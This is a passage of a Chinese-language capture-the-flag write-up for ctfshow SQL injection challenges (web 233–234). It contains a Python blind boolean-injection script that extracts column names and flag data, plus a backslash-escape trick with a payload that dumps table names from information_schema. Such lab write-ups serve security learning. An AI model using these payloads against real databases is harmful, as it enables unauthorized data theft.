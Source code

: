 ```python
        # 爆字段 id,flagass233,info
        # payload=f"ctfshow' and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag233333'),{i},1))>{mid},1,0)#"
        # 爆flag
        payload=f"ctfshow' and if(ascii(substr((select group_concat(id,flagass233,info) from flag233333),{i},1))>{mid},1,0)#"
        data={
            "username":payload,
            "password":j
        }
        r=requests.post(url,data=data)
        if "\\u66f4\\u65b0\\u6210\\u529f" in r.text:#更新成功
            head=mid+1
        else:
            tail=mid
    if head!=1:
        print(head)
        flag+=chr(head)
        print(flag)
    else:
        break
```

## web 234 反斜杠转义

相比于上题，这题`'`单引号被过滤了，看了师傅[反斜杠转义](https://boogipop.com/2023/03/02/CTFSHOW-SQL%E6%B3%A8%E5%85%A5/#Web234%EF%BC%88\%E8%BD%AC%E4%B9%89)。现在不能主动用单引号闭合了，如果使用反斜杠转义原有的单引号，有更好玩的姿势

```php
# 原始语句
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
# 反斜杠转义后
$sql = "update ctfshow_user set pass = '\' where username = '{$username}';";
```

反斜杠转义后，出现`pass='\' where username ='{$username}';`，变量pass=`where username =`，原有的where语句被pass变量吞掉了，变量username出来了

这个sql语句可以看成

```php
$sql = update ctfshow_user set pass = 'where username = '{$username}';
```

现在可以看到{$username}前面的单引号跟pass的单引号闭合了，后面还多出一个单引号，需要注释掉，不然语句就是错的。
子查询放括号里


```sql
username=,username=(select group_concat(table_name) from information_schema.tables where table_schema=database())#&password=\
```

用这个思路，接着爆库表数据

## web 235
